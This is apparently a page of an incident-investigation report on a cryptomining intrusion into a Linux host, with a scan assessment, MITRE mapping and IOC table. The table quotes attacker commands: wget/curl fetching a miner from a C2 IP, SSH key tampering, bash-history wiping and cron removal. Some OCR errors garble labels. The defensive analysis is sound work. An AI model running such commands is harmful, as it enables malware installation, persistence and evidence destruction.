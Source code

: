 
 
Assessment / Conclusion:
•	Attacker attempted lateral movement by scanning the entire 10.0.0.x subnet
•	No internal system received repeated brute attempts
•	Indicates worm-like scanning, not direct credentialed pivot
•	Lateral move unsuccessful based on scan pattern (low persistence, no focused brute) likely mapping the network at this stage.

MITRE ATTCCK Mappings:
Tactic	Technique	Status
Credential Access	T1110 – Brute Force Attack	Confirmed
Lateral Movement	T2021 0 Remote Services
(SSH)	In Progress (Internal focus
next)
 
Deep Dive: Investigating Sakel-Lunix-2 as the Primary Compromised Host
The next phase of this investigation focuses on sakel-lunix-2. The objective is to review process events, network activity, and file behavior on this system. This analysis aims to identify any signs of suspicious actions or potential compromise linked to the broader incident.
 

The table helps us track the threat actor’s activity across the environment.

Extracted IOCs

Type	Indicator / Artifact	Description
File / Path	/var/tmp/Documents/.diicot	Malware artifact - mining binary
File / Path	/var/tmp/Documents/.kuak	Malware artifact - secondary
payload
File / Path	/var/tmp/dicot/.diicot	Malware deployment directory
File / Path	/var/tmp/kuak/var/tmp/Documents/.
kuak	Payload / artifact replication
File / Path	.balu	Malicious miner binary
downloaded from C2
File / Path	.cache	Likely storing miner or logs
File / Path	/var/tmp/cache	Malware / miner staging folder
 
File / Path	~/.bash_history	Bash history wiped for evasion
IP Address	85.31.47.99	Malicious Command C Control
(C2), miner download
Command	rm -rf /var/tmp/Documents	File deletion (destruction /
evasion)
Command	chattr -iae ~/.ssh/authorized_keys	SSH key file modification for
persistence
Command	pkill Opera, pkill crnjc, pkill java, pkill
xmrig	Process killing (resource hijacking
prevention)
Command	wget -q
85.31.47.99/NzJOTWxvcs/.balu	Miner payload download
Command	curl -O -s -L
85.31.47.99/NzJOTWxvcs/.balu	Miner payload download
Command	chmod +x cache	Setting executable permission on
malware
Command	history -c	Bash history wipe
Command	rm -rf .bash_history	Remove bash history - defense
evasion
Command	crontab -r	Removing cron jobs for
persistence clearing
